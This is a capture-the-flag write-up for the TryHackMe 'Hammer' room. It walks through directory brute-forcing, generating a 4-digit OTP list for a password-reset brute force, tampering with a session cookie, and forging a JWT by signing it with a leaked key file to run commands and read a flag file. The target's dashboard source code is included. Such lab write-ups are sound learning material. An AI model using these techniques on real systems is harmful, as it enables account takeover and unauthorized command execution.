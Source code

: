 # hammer.thm
Resources I used to solve the THM Hammer room


## Add target to etc/hosts
```
echo target hammer.thm >> etc/hosts
```

## Scan open ports
`nmap -p- hammer.thm`

Open browser and navigate to hammer.thm:1337

## Gobuster directory bruteforcing
```
gobuster -u http://hammer.thm:1337 -w Tools/wordlists/dirbuster/directory-list-1.0.txt dir
```
![](Assets/gobuster.PNG)
## Sed to substitute hmr_ at the beginning of each directory in the list
```
cp Tools/wordlists/dirbuster/directory-list-1.0.txt list.txt
```
Now to format the entries:
```
sed -i 's/^/hmr_/' list.txt
```
Then use gobuster again with the updated directories list:
```
gobuster -u http://hammer.thm:1337 -w list.txt dir
```
Which gives us the following result:
![](Assets/hmr_gobuster.PNG)
In hmr_logs there is a reference to the user tester@hammer.thm. Great! Let's use that in our reset_password feature.
## Crunch to create OTP list for bruteforcing
From the reset_password.php page, we know it's expecting a 4 digit OTP code
```
crunch 4 4 -o otp.txt -t %%%% -s 0000 -e 9999
```
Note: In hindsight I could have made the range 1000 to 9999 instead, since there were no valid codes from 0000 to 1000

## Use script.py to enumerate 
Challenges: The session ID has a timeout of 5 requests, so I had to keep regenerating session IDs with a POST request to index.php every 5 requests
```
python3 script.py 
```
There will be multiple VALID codes, just keep an eye on the terminal until one pops up and use it

## Change Cookies
Set 'persistentSession: yes' in since there is some logic in the backend that checks for this value to be true to keep it from issuing a logout.

## Enter commands
We find that only ls is valid, and we get the following result from that:
![](Assets/dashboard_ls.PNG)

Download the key by navigating to /188ade1.key.
In cmd line, view contents of this file by typing cat 188ade1.key
![](Assets/188ade1key.PNG)

## JWT
Looking at the dashboard.php source code, we notice that a JWT token accompanies the POST request to /execute_command.php. Analyze this in [jwt.io](https://jwt.io) to find the result:

---

The following code is in /dashboard.php
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Dashboard</title>
    <link href="/hmr_css/bootstrap.min.css" rel="stylesheet">
    <script src="/hmr_js/jquery-3.6.0.min.js"></script>
    <style>
        body {
            background: url('/hmr_images/hammer.webp') no-repeat center center fixed;
            background-size: cover;
        }
        .container {
            position: relative;
            z-index: 10; /* Make sure the content is above the background */
            background-color: rgba(255, 255, 255, 0.8); /* Slight white background for readability */
            padding: 20px;
            border-radius: 10px;
        }
    </style>
	
	    <script>
       
        function getCookie(name) {
            const value = `; ${document.cookie}`;
            const parts = value.split(`; ${name}=`);
            if (parts.length === 2) return parts.pop().split(';').shift();
        }

      
        function checkTrailUserCookie() {
            const trailUser = getCookie('persistentSession');
            if (!trailUser) {
          
                window.location.href = 'logout.php';
            }
        }

       
        setInterval(checkTrailUserCookie, 1000); 
    </script>

</head>
<body>
<div class="container mt-5">
    <div class="row justify-content-center">
        <div class="col-md-6">
            <h3>Welcome, Thor! - Flag: THM{AuthBypass3D}</h3>
            <p>Your role: user</p>
            
            <div>
                <input type="text" id="command" class="form-control" placeholder="Enter command">
                <button id="submitCommand" class="btn btn-primary mt-3">Submit</button>
                <pre id="commandOutput" class="mt-3"></pre>
            </div>
            
            <a href="logout.php" class="btn btn-danger mt-3">Logout</a>
        </div>
    </div>
</div>

<script>
$(document).ready(function() {
    $('#submitCommand').click(function() {
        var command = $('#command').val();
        var jwtToken = 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzM5NDgxNTEzLCJleHAiOjE3Mzk0ODUxMTMsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJ1c2VyIn19.tR8jR6pKAO6m677TejA1mHH2vQ_keHgZxU3GReFq8N0';

        // Make an AJAX call to the server to execute the command
        $.ajax({
            url: 'execute_command.php',
            method: 'POST',
            data: JSON.stringify({ command: command }),
            contentType: 'application/json',
            headers: {
                'Authorization': 'Bearer ' + jwtToken
            },
            success: function(response) {
                $('#commandOutput').text(response.output || response.error);
            },
            error: function() {
                $('#commandOutput').text('Error executing command.');
            }
        });
    });
});
</script>
</body>
</html>
```

---

Notice a JWT reference to  eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzM5NDgxNTEzLCJleHAiOjE3Mzk0ODUxMTMsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJ1c2VyIn19.tR8jR6pKAO6m677TejA1mHH2vQ_keHgZxU3GReFq8N0

Decoding this gives
[this result](https://jwt.io/#debugger-io?token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzM5NDgxNTEzLCJleHAiOjE3Mzk0ODUxMTMsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJ1c2VyIn19.tR8jR6pKAO6m677TejA1mHH2vQ_keHgZxU3GReFq8N0)

Change the role to admin - 401 Unauthorized

Change the key to /var/www/html/188ade1.key - 401 Unauthorized

Change the secret key to the value of 188ade1.key - 200

The final JWT token is [this](https://jwt.io/#debugger-io?token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L2h0bWwvMTg4YWRlMS5rZXkifQ.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzM5NDgwMjE5LCJleHAiOjE3Mzk0ODM4MTksImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJhZG1pbiJ9fQ.9sNBOr1gkBgs3_hetViDicpXzRQll6jMJ47RiNIPsKI)

Change the body of the request to obtain the flag in the directory /home/ubuntu/flag.txt.
![](Assets/POSTrequest.PNG)

Under the Response tab, the following JSON is observed:
`output	"THM{RUNANYCOMMAND1337}\n"`
